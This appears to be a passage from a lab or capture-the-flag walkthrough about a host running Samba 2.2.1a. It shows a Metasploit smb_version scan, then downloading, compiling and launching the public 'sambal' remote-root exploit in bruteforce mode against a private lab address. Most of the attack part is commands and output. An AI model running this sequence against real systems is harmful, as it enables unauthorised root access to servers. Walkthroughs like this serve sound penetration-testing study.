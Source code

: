Unfortunately the above scan did not gave the version of samba so  i am going to use metasploit auxiliary module to get the samba version   

```shell  
msf5 > search scanner/smb
msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf5 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.1.104:139     - Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.1.104:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```  

The version of samba version is samba 2.2.1a, now by searching "samba 2.2.1a vulnerability" i found "Samba < 2.2.8 (Linux/BSD) - Remote Code Execution" exploit at https://www.exploit-db.com/exploits/10   

Now from here download and try the exploit.   

```shell  
$ wget https://www.exploit-db.com/raw/10
$ mv 10 sambal.c
$ gcc -o sambal sambal.c
$ ./sambal
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./sambal [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode

$ ./sambal -b 0 -v 192.168.1.104
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
```